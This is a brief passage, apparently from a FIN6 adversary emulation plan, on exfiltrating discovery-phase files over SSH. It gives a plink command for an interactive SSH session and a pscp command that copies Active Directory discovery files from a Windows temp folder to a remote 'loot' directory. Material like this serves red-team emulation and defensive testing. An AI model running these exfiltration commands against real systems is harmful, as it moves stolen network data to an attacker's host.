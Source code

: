 Initiate an interactive SSH session with a remote server.  FIN6 exfiltrates the text files resultant from the Discovery Phase via SSH.

##### FIN6 Procedure

```sh
plink -ssh #{user}@#{server}
```

```sh
Example: C:\>plink -ssh root@192.168.101.1
```

##### Alternative Procedure

```sh
pscp c:\windows\temp\ad_* root@192.168.101.1:/temp/loot
```
